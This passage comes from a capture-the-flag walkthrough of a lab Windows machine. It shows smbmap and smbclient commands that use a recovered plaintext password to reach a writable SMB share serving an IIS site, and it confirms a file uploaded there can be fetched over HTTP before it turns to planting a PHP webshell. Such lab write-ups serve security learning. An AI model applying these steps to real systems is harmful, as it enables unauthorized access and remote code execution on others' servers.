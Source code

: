 

    root@kali# smbmap -H 10.10.10.97 -u tyler -p '92g!mA8BGjOirkL%OG*&'
    [+] Finding open SMB ports....
    [+] User SMB session establishd on 10.10.10.97...
    [+] IP: 10.10.10.97:445 Name: 10.10.10.97                                       
            Disk                                                    Permissions
            ----                                                    -----------
            ADMIN$                                                  NO ACCESS
            C$                                                      NO ACCESS
            IPC$                                                    READ ONLY
            new-site                                                READ, WRITE



I'll connect to the SMB share as tyler, and find the basics of a default
IIS site:



    root@kali# smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site
    Try "help" to get a list of possible commands.
    smb: \> ls
      .                                   D        0  Thu Jun 21 16:24:44 2018
      ..                                  D        0  Thu Jun 21 16:24:44 2018
      iisstart.htm                        A      696  Thu Jun 21 11:26:03 2018
      iisstart.png                        A    98757  Thu Jun 21 11:26:03 2018
      web.config                          A      270  Thu Jun 21 16:21:41 2018

                    12978687 blocks of size 4096. 4930083 blocks available



This obviously isn't the port 80 site, but it does match what I saw on
the port 8808 site earlier. I'll test that hypothesis and find it is
that site:



    root@kali# echo test > 0xdf.txt





    smb: \> put 0xdf.txt
    putting file 0xdf.txt as \0xdf.txt (1.2 kb/s) (average 0.6 kb/s)





    root@kali# curl http://10.10.10.97:8808/0xdf.txt
    test



## Shell as tyler

### Webshell

With access to write files over SMB and have them served back to me with
php, I can drop a webshell. Since the SecNotes site was running on php,
that seems like a good place to start. I like to start with a very basic
webshell:
